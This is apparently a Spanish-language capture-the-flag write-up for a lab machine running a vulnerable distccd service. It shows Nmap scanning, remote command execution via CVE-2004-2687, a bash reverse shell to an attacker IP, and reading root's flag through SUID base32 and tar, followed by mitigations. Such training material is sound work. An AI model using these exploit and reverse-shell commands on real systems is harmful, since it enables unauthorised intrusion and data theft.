










## Información General

|Campo|Valor|
|---|---|
|**Plataforma**|whoami-labs|
|**Máquina**|Distcc|
|**Dificultad**|Fácil|
|**IP Objetivo**|172.17.0.2|
|**Autor**|elc0ket|

## Resumen del Ataque

La máquina expone únicamente el servicio `distccd` (puerto 3632/tcp), un demonio usado para compilación distribuida de código. Esta versión es vulnerable a **CVE-2004-2687**, que permite la ejecución remota de comandos arbitrarios debido a una configuración débil del servicio, que acepta y ejecuta trabajos de compilación sin ningún tipo de autenticación. Aprovechando esta vulnerabilidad se obtiene ejecución remota de comandos como el usuario `distccd`, se estabiliza una reverse shell y, finalmente, se escala a la lectura de archivos protegidos de root mediante binarios con permisos SUID (`base32` y `tar`), técnicas de tipo GTFOBins, permitiendo capturar la flag sin necesidad de una shell completa de root.

## Técnicas Usadas

- Escaneo de puertos completo con Nmap (`-p-`)
- Escaneo de versión y scripts por defecto (`-sC -sV`)
- Detección de vulnerabilidad con script NSE (`distcc-cve2004-2687`)
- Explotación de distcc Daemon Command Execution (CVE-2004-2687)
- Obtención de reverse shell vía Netcat
- Estabilización de shell (PTY spawn + stty raw)
- Enumeración de binarios SUID
- Bypass de lectura de archivos protegidos mediante GTFOBins (`base32`, `tar`)

## Desarrollo

### 1. Escaneo inicial de puertos

```bash
nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 172.17.0.2
```

Resultado:



Único puerto abierto: 3632/tcp, correspondiente al servicio `distccd`.

### 2. Escaneo de versión y scripts

```bash
nmap -p 3632 -sC -sV -oN allports 172.17.0.2
```



Se confirma la versión del demonio, correspondiente a Ubuntu 18.04.

### 3. Verificación de vulnerabilidad con script NSE

```bash
nmap -p 3632 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='id'" 172.17.0.2
```



El script de Nmap confirma la explotabilidad ejecutando `id` de forma remota, obteniendo como respuesta el contexto del usuario `distccd`.

### 4. Obtención del exploit

```bash
git clone https://github.com/h3x0v3rl0rd/distccd_rce_CVE-2004-2687.git
cd distccd_rce_CVE-2004-2687/
chmod +x distccd_rce.py
```

### 5. Preparación del listener y ejecución del exploit

En una terminal, se pone a la escucha el listener:

```bash
nc -lvnp 1234
```

En otra terminal, se lanza el exploit apuntando a una reverse shell hacia nuestra IP:

```bash
python3 distccd_rce.py -t 172.17.0.2 -p 3632 -c "bash -c 'bash -i >& /dev/tcp/172.17.0.1/1234 0>&1'"
```

Se obtiene conexión en el listener, aunque la sesión inicial es inestable y se pierde tras un rato de inactividad.

### 6. Estabilización de la shell

Para evitar la pérdida de la sesión, se genera una PTY completa antes de que la conexión se cierre:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Seguido de:


```bash
# Ctrl+Z
stty -echo -icanon; fg
export TERM=xterm
export SHELL=bash
```

**Nota** que `stty raw -echo` puede causar el efecto escalera (desactiva `ONLCR`), y que `stty -echo -icanon` es la alternativa que lo evita.

```bash
distccd@distcc:/tmp$ whoami
```



Shell estable como usuario `distccd`.

### 7. Enumeración de usuarios y directorios

```bash
grep bash /etc/passwd
```



```bash
cd /home/holman/
ls -la
```



Sin archivos de interés ni permisos de escritura sobre el directorio del usuario `holman`.

### 8. Verificación de privilegios sudo

```bash
sudo -l
```



`sudo` no está disponible en el sistema, se descarta esta vía de escalada.

### 9. Enumeración de binarios SUID

```bash
find / -perm -4000 -type f 2>/dev/null
```



Se identifican dos binarios de interés para bypass de lectura de archivos protegidos (GTFOBins): `base32` y `tar`.

### 10. Lectura de la flag mediante `base32` (SUID)

```bash
/usr/bin/base32 /root/flag.txt | /usr/bin/base32 --decode
```



Al tener SUID, `base32` puede leer el archivo protegido de root, codificarlo y decodificarlo localmente para obtener el contenido en texto plano.

### 11. Verificación alternativa con `tar` (SUID)


```bash
tar -cf - /root/flag.txt 2>/dev/null | tar -xf - -O
```



Se confirma la misma flag mediante una segunda técnica de GTFOBins, aprovechando el SUID de `tar` para leer el archivo directamente a stdout.

## Lecciones Aprendidas

- `distccd` nunca debe exponerse a redes no confiables sin autenticación: por diseño, acepta y ejecuta trabajos de compilación arbitrarios de cualquier cliente que se conecte.
- Los scripts NSE de Nmap (`--script`) permiten confirmar vulnerabilidades conocidas de forma rápida antes de lanzar exploits externos.
- Las reverse shells básicas (`bash -i >& /dev/tcp/...`) son inestables y no soportan job control; conviene estabilizarlas cuanto antes con `pty.spawn` y `stty -echo -icanon`.
- La ausencia de `sudo` no significa ausencia de vectores de escalada: siempre hay que revisar binarios SUID como alternativa.
- No es necesario obtener una shell completa de root para capturar una flag: técnicas de GTFOBins como las de `base32` o `tar` permiten leer archivos protegidos usando únicamente el bit SUID del binario, sin necesidad de ejecución de comandos con privilegios elevados.
- Es recomendable verificar los hallazgos con más de una técnica cuando sea posible (en este caso, `base32` y `tar` confirmaron el mismo resultado).

## Medidas de Mitigación

- No exponer el servicio `distccd` a redes públicas o no confiables; restringir su acceso únicamente a hosts de confianza mediante firewall o `--allow`.
- Actualizar `distcc` a una versión que incluya mitigaciones o deshabilitar el modo de compilación distribuida si no es estrictamente necesario.
- Revisar periódicamente los binarios con bit SUID activo en el sistema y eliminar dicho bit de aquellos que no lo requieran (`base32`, `tar`, etc. rara vez necesitan SUID en la práctica).
- Aplicar el principio de mínimo privilegio: evitar SUID en binarios de propósito general que puedan usarse para lectura/escritura arbitraria de archivos.
- Implementar monitorización de integridad y alertas ante ejecución de binarios SUID poco habituales.
- Segmentar la red para limitar el impacto de un servicio comprometido sobre otros sistemas.